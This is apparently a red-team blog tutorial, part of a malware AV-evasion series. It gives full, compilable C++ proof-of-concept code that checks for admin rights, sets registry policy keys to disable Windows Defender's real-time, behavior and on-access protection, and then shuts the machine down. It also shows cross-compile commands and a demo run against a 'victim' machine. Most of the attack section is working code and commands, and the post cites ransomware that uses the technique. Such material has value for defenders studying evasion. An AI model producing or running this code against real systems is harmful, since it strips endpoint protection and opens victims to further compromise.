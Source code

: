 ```yaml
---
title:  "Malware AV evasion: part 7. Disable Windows Defender. Simple C++ example."
date:   2022-06-05 10:00:00 +0600
header:
  teaser: "/assets/images/57/2022-06-05_12-21.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - evasion
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!    

![av](/assets/images/57/2022-06-05_12-21.png){:class="img-responsive"}    

This article is the result of my own research into one of the most common tricks used by malware in the wild.    

### windows defender

The anti-malware software Windows Defender (now known as Microsoft Defender Antivirus) protects your computer from external threats. Microsoft has developed the antivirus to safeguard `Windows 10` computers from virus threats.

This antivirus is preinstalled on all `Windows 10` editions.

To avoid possible detection of their malware/tools and activities, adversaries may modify or disable security tools. For example Windows Defender.

### practical example

Let's go to try disable Windows Defender Antivirus via modifying Windows registry. First of all, it is important to remember that disabling requires administrator rights. In active mode, Microsoft Defender Antivirus serves as the device's primary antivirus program.
Threats are remedied and detected threats are listed in your organization's security reports and Windows Security application. To disable all this you just need to modify the registry keys:

```cpp
LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SOFTWARE\\Policies\\Microsoft\\Windows Defender", 0, KEY_ALL_ACCESS, &key);
if (res == ERROR_SUCCESS) {
  RegSetValueEx(key, "DisableAntiSpyware", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegCreateKeyEx(key, "Real-Time Protection", 0, 0, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, 0, &new_key, 0);
  RegSetValueEx(new_key, "DisableRealtimeMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableBehaviorMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableOnAccessProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableIOAVProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));

  RegCloseKey(key);
  RegCloseKey(new_key);
}
```

But as I wrote earlier, this requires admin rights, for this we create a function which check this:

```cpp
// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &token)) {
    if (GetTokenInformation(token, TokenElevation, &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}
```

Since Windows Vista, UAC has been a crucial feature for mitigating some risks associated with privilege elevation. Under UAC, local Administrators group accounts have two access tokens, one with standard user privileges and the other with administrator privileges.
All processes (including the Windows explorer - `explorer.exe`) are launched using the standard token, which restricts the process's rights and privileges. If the user desires elevated privileges, he may select *"run as Administrator"* to execute the process.
This opt-in grants the process all administrative privileges and rights.

A script or executable is typically run under the standard user token due to UAC access token filtering, unless it is "run as Administrator" in elevated privilege mode. As a developer or hacker, it is essential to understand the mode in which you are operating.

So, full PoC script to disable Windows Defender is something like:

```cpp
/*
hack.cpp
disable windows defender dirty PoC
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/06/05/malware-av-evasion-7.html
*/

#include <cstdio>
#include <windows.h>

// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &token)) {
    if (GetTokenInformation(token, TokenElevation, &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}

// disable defender via registry
int main(int argc, char* argv[]) {
  HKEY key;
  HKEY new_key;
  DWORD disable = 1;

  if (!isUserAdmin()) {
    printf("please, run as admin.\n");
    return -1;
  }

  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SOFTWARE\\Policies\\Microsoft\\Windows Defender", 0, KEY_ALL_ACCESS, &key);
  if (res == ERROR_SUCCESS) {
    RegSetValueEx(key, "DisableAntiSpyware", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegCreateKeyEx(key, "Real-Time Protection", 0, 0, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, 0, &new_key, 0);
    RegSetValueEx(new_key, "DisableRealtimeMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableBehaviorMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableOnAccessProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableIOAVProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));

    RegCloseKey(key);
    RegCloseKey(new_key);
  }

  printf("perfectly disabled :)\npress any key to restart to apply them.\n");
  system("pause");
  system("C:\\Windows\\System32\\shutdown /s /t 0");
  return 1;
}
```

### demo

Let's go to see everything in action. First of all, check our defender:

![av](/assets/images/57/2022-06-05_12-19.png){:class="img-responsive"}    

and check registry keys:

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

![av](/assets/images/57/2022-06-05_12-15.png){:class="img-responsive"}    

As you can see, we have standard registry keys.   

Then, let's go to compile our script from attacker's machine:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av](/assets/images/57/2022-06-05_12-03.png){:class="img-responsive"}    

And run it on the victim's machine:

```powershell
.\hack.exe
```

![av](/assets/images/57/2022-06-05_12-17.png){:class="img-responsive"}    

According to the logic of the our program, the machine turns off. Then, turn on it again and check:

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

![av](/assets/images/57/2022-06-05_12-20.png){:class="img-responsive"}    

![av](/assets/images/57/2022-06-05_12-20_1.png){:class="img-responsive"}    

For correctness, check via Windows Defender Security Center:

![av](/assets/images/57/2022-06-05_12-22.png){:class="img-responsive"}    

![av](/assets/images/57/2022-06-05_13-17.png){:class="img-responsive"}    

As you can see, everything is worked perfectly!    

But of course, this trick is not new, nowadays threat actors may tamper with artifacts deployed and utilized by security tools. Security products may load their own modules and/or modify those loaded by processes to facilitate data collection. Adversaries may unhook or otherwise modify these features added by tools to avoid detection.    

This trick is used by [Maze](https://attack.mitre.org/software/S0449/) and [Pysa](https://attack.mitre.org/software/S0449/) ransomwares in the wild.    

For the next part, I'll learn and research a trick, the point of which is to deprive the antivirus process of privileges, thanks to which it can check files for malware.   

[MITRE ATT&CK. Impair Defenses: Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/)    
[Gorgon Group](https://attack.mitre.org/groups/G0078/)    
[H1N1 Malware](https://attack.mitre.org/software/S0132/)    
[Maze ransomware](https://attack.mitre.org/software/S0449/)    
[Pysa ransomware](https://attack.mitre.org/software/S0449/)     
[source code on github](https://github.com/cocomelonc/2022-06-05-malware-av-evasion-7)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
